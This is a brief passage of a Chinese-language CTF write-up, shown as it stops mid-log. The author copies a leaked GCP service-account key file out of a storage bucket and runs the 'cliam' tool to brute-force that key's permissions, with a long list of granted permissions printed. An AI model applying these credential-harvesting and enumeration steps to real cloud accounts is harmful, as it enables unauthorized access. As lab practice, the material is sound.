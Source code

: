 搞到本地

```bash
> gcloud storage cp gs://cloud-vault-assets/cloudvault-dev-files/config/firestore.json#1714402948237947 ~/Downloads/cloud-vault-assets/cloudvault-dev-files/config/

Copying gs://cloud-vault-assets/cloudvault-dev-files/config/firestore.json#1714402948237947 to file:///Users/tari/Downloads/cloud-vault-assets/cloudvault-dev-files/config/firestore.json
  Completed files 1/1 | 2.3kiB/2.3kiB
```

然后这个贼多权限

- `./cliam gcp --service-account ~/Downloads/cloud-vault-assets/cloudvault-dev-files/config/firestore.json bruteforce`
    
    ```bash
    May 25 18:45:10 DBG ● project=ctfs-417807 region=us-central1 zone=us-central1-a
    May 25 18:45:12 INF ● automl.annotationSpecs=get
    May 25 18:45:12 INF ● automl.annotationSpecs=list
    May 25 18:45:12 INF ● automl.annotations=list
    May 25 18:45:12 INF ● automl.columnSpecs=get
    May 25 18:45:12 INF ● automl.columnSpecs=list
    May 25 18:45:12 INF ● automl.datasets=get
    May 25 18:45:12 INF ● automl.datasets=list
    May 25 18:45:12 INF ● automl.examples=get
    May 25 18:45:12 INF ● automl.examples=list
    May 25 18:45:12 INF ● automl.humanAnnotationTasks=get
    May 25 18:45:12 INF ● automl.humanAnnotationTasks=list
    May 25 18:45:12 INF ● automl.locations=get
    May 25 18:45:12 INF ● automl.locations=list
    May 25 18:45:12 INF ● automl.modelEvaluations=get
    May 25 18:45:12 INF ● automl.modelEvaluations=list
    May 25 18:45:12 INF ● automl.models=get
    May 25 18:45:12 INF ● automl.models=list
    May 25 18:45:12 INF ● automl.operations=get
    May 25 18:45:12 INF ● automl.operations=list
    May 25 18:45:12 INF ● automl.tableSpecs=get
    May 25 18:45:12 INF ● automl.tableSpecs=list
    May 25 18:45:13 INF ● cloudbuild.builds=get
    May 25 18:45:13 INF ● cloudbuild.builds=list
    May 25 18:45:13 INF ● cloudconfig.configs=get
    May 25 18:45:13 INF ● cloudfunctions.functions=get
    May 25 18:45:13 INF ● cloudfunctions.functions=get-iam-policy
    May 25 18:45:13 INF ● cloudfunctions.functions=list
    May 25 18:45:13 INF ● cloudfunctions.locations=list
    May 25 18:45:13 INF ● cloudfunctions.operations=get
    May 25 18:45:13 INF ● cloudfunctions.operations=list
    May 25 18:45:14 INF ● cloudnotifications.activities=list
    May 25 18:45:16 INF ● cloudtoolresults.executions=get
    May 25 18:45:16 INF ● cloudtestservice.environmentcatalog=get
    May 25 18:45:16 INF ● cloudtoolresults.executions=list
    May 25 18:45:16 INF ● cloudtoolresults.histories=get
    May 25 18:45:16 INF ● cloudtestservice.matrices=get
    May 25 18:45:16 INF ● cloudtoolresults.histories=list
    May 25 18:45:16 INF ● cloudtoolresults.settings=get
    May 25 18:45:16 INF ● cloudtoolresults.steps=get
    May 25 18:45:16 INF ● cloudtoolresults.steps=list
    May 25 18:45:19 INF ● datastore.databases=get
    May 25 18:45:19 INF ● datastore.databases=get-iam-policy
    May 25 18:45:19 INF ● datastore.databases=list
    May 25 18:45:19 INF ● datastore.entities=get
    May 25 18:45:19 INF ● datastore.entities=list
    May 25 18:45:19 INF ● datastore.indexes=get
    May 25 18:45:19 INF ● datastore.indexes=list
    May 25 18:45:19 INF ● datastore.namespaces=get